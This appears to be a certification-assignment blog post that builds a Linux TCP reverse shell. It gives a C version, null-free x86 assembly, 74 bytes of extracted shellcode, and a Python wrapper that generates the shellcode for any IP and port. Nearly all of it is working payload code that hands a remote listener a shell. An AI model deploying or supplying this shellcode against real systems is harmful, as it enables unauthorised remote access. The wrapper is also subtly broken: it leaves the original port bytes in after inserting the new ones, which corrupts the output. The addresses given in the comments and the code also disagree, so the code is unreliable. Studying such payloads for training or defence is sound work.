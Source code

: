 _This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:_  
_ __<http://securitytube-training.com/online-courses/securitytube-linux-
assembly-expert/>_  
_ __**Student ID:** SLAE-885_  
_**Assignment number: **2_  
_**Github repo:** <https://github.com/abatchy17/SLAE>[
](https://github.com/abatchy17/SLAE)_  
  

## What are the requirements for a reverse shell?

A reverse shell requires the following:  

  1. Connect to an IP on a given port (now acting as a client).
  2. Spawn a shell upon connecting.

Most of the process is very similar to [the bind shell
example](http://www.abatchy.com/2017/05/tcp-bind-shell-in-assembly-null.html)
(which means lots of repetition here), with a few twists:  
  
1\. Listener is **external**, by that it means our code won't be listening to
incoming connections, instead it will connect to an existing open port waiting
for a connection.  
2\. IP and port need to be defined in the code, bind shell **only **needed a
port to start listening on.  
  

## TCP reverse shell in C

  

    
    
    #include <stdio.h>  
    #include <sys/types.h>   
    #include <sys/socket.h>  
    #include <netinet/in.h>  
      
    int client_sockid;  // sockfd for client  
    int host_sockid;    // sockfd for host  
          
    struct sockaddr_in hostaddr;            // sockaddr struct   
      
    int main()  
    {  
        // Create socket  
        client_sockid = socket(PF_INET, SOCK_STREAM, 0);  
      
        // Initialize sockaddr struct to bind socket using it  
        hostaddr.sin_family = AF_INET;  
        hostaddr.sin_port = htons(1337);  
        hostaddr.sin_addr.s_addr = inet_addr("127.0.0.1");  
      
        // Connect to existing listener  
        connect(client_sockid, (struct sockaddr*)&hostaddr, sizeof(hostaddr));  
      
        // Duplicate file descriptors for STDIN, STDOUT and STDERR  
        dup2(client_sockid, 0);  
        dup2(client_sockid, 1);  
        dup2(client_sockid, 2);  
      
        // Execute /bin/sh  
        execve("/bin/sh", NULL, NULL);  
        return 0;  
    } 

  
Again, this code lacks error checking and shouldn't be used as is, for a more
robust code, check my [sockets](https://github.com/abatchy17/sockets) repo.  
  

### Quick break down:

1\. Create socket  
2\. Connect to listener  
3\. Redirect STDIN,STDOUT and STDERR to newly created socket from client.  
4\. Spawn the shell.  
  

## Converting module to assembly (_sigh_)

For socket programming through syscalls you'll need to make use of three
registers:  
1\. EAX should always contain 0x66, which is the number of socketcall()
defined in the linux headers.  
2\. EBX should contain the call ID for the specific socket function you want
to execute, which is defined in /usr/include/linux/net.h  
3\. ECX contains a pointer to the arguments.  
  

[![](http://i.imgur.com/OrTXm31.png)](http://i.imgur.com/OrTXm31.png)

  

    
    
    global _start  
    section .text  
      
    _start:  
        ; Socket functions should be accessed through socketcall()  
        ; References:  
        ;   1. http://man7.org/linux/man-pages/man2/socketcall.2.html  
        ;   2. http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210  
        ; Call ids are defined in /usr/include/linux/net.h and should be put in EBX  
      
        ;  
        ; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)  
        ;  
        cdq                 ; EDX = 0x0 | Saves a byte  
        xor ebx, ebx  
        inc ebx             ; EBX = 0x1 | #define SYS_SOCKET 1  
                            ; saves a byte instead of mov bl, 1  
        push edx            ; zeroed out earlier  
                            ; protocol = 0  
        push ebx            ; SOCK_STREAM = 1  
                            ; Needed for bind(), can be used here to save a few bytes  
        push byte 0x2       ; PF_INET = 2  
        mov ecx, esp  
        push byte 0x66      ; socketcall()  
        pop eax             ; EAX = 0x66  
        int 0x80  
      
        xchg esi, eax       ; sockfd is now stored in esi  
      
        ;  
        ; connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("127.0.0.1")}, 16)  
        ;  
        inc ebx             ; EBX = 0x2   
        push 0x0101017f       ; sockaddr.sin_addr.s_addr: 127.0.0.1 (big endian)  
        push word 0x3905    ; sockaddr.sin_port       : PORT = 1337  
        push bx             ; sockaddr.sin_family     : AF_INET = 2  
        mov ecx, esp        ; ECX holds pointer to struct sockaddr  
      
        push 0x10           ; sizeof(sockaddr)  
        push ecx            ; pointer to sockaddr  
        push esi            ; sockfd  
        mov ecx, esp        ; ECX holds pointer to arguments  
        inc ebx             ; EBX = 0x3 | #define SYS_CONNECT 3  
        mov al, 0x66        ; socketcall()  
        int 0x80  
      
        xchg ebx, esi  
          
        ;  
        ; dup2(ebx, {0,1,2})  
        ;  
        xor ecx, ecx  
    lbl:  
        mov al, 0x3f  ; dup2()  
        int 0x80  
        inc ecx    ; Iterate over {0,1,2}  
        cmp cl, 0x4   ; Are we done?  
        jne lbl    ; Nope  
          
        ; execve("/bin//sh", NULL, NULL)  
        push edx   ; Null terminator  
        push 0x68732f2f  ; "hs//"  
        push 0x6e69622f  ; "nib/"  
          
        mov ebx, esp  ; EBX points to "/bin//sh"  
        mov ecx, edx  ; ECX = NULL`  
          
        mov al, 0xb   ; execve()  
        int 0x80  
    

  
As you noticed, when calling connect(), we defined port 1337 as 0x3905 instead
of 0x0539, and local IP 127.1.1.1 (we avoided 127.0.0.1 because of null
characters) was converted to 0x0101017f instead of 0x7F010101. This is because
it's in network byte order, which is big-endian. In the example code you
should still call htonl() / inet_addr() even if your CPU is big-endian for
cross compatibility.  
  

## Testing our shell

#### 1\. Start a listener

  

[![](http://i.imgur.com/pn93ioR.png)](http://i.imgur.com/pn93ioR.png)

####  

#### 2\. Compile code and run

  

[![](http://i.imgur.com/XezGi4W.png)](http://i.imgur.com/XezGi4W.png)

####  

#### 3\. Check listener

  

[![](http://i.imgur.com/DHBvMSq.png)](http://i.imgur.com/DHBvMSq.png)

## Extracting the shellcode

  

    
    
    abatchy@ubuntu:~/Desktop/work$ objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'  
    "\x99\x31\xdb\x43\x52\x53\x6a\x02\x89\xe1\x6a\x66\x58\xcd\x80\x96\x43\x68\x7f\x01\x01\x01\x66\x68\x05\x39\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\x43\xb0\x66\xcd\x80\x87\xde\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x04\x75\xf6\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"  
    

  

## Python wrapper

  
  

    
    
    #!/usr/bin/python  
      
    import socket  
    import sys  
    import struct  
      
    if len(sys.argv) is not 3:  
        print "Usage: {0} IP PORT".format(sys.argv[0])  
        exit()  
      
    ip = socket.inet_aton(sys.argv[1])  
    port = int(sys.argv[2])  
      
    if port < 1 or port > 65535:  
        print "Are you kidding?"  
        exit()  
      
    if port <= 1000:  
        print "Port will bind only if run as root"  
      
    # ugly code, don't look  
    port = format(port, '04x')  
    port = "\\x" + str(port[2:4]) + "\\x" + str(port[0:2])  
      
    ip = ip.encode('hex')  
    ip = "\\x" + ip[0:2] + "\\x" + ip[2:4] + "\\x" + ip[4:6] + "\\x" + ip[6:8]  
      
    sc = "\\x99\\x31\\xdb\\x43\\x52\\x53\\x6a\\x02\\x89\\xe1\\x6a\\x66\\x58\\xcd\\x80\\x96\\x43\\x68" + ip + "\\x66\\x68" + port + "\\x05\\x39\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x56\\x89\\xe1\\x43\\xb0\\x66\\xcd\\x80\\x87\\xde\\x31\\xc9\\xb0\\x3f\\xcd\\x80\\x41\\x80\\xf9\\x04\\x75\\xf6\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"  
      
    print "Shellcode generated:"  
    print sc  
    

  
  

## Final notes

1\. Shellcode is **null free** assuming the port number is too.  
2\. Shellcode size is **74 bytes**.  
3\. Shellcode is **register-independant**.  
  

## References:

1\. http://man7.org/linux/man-pages/man2/socketcall.2.html  
2\. http://lxr.free-electrons.com/source/net/socket.c?v=2.6.35#L2210  
3\. Hacking: The Art of Exploitation (2nd Edition) - Chapter 4 and 5  
  
\- Abatchy

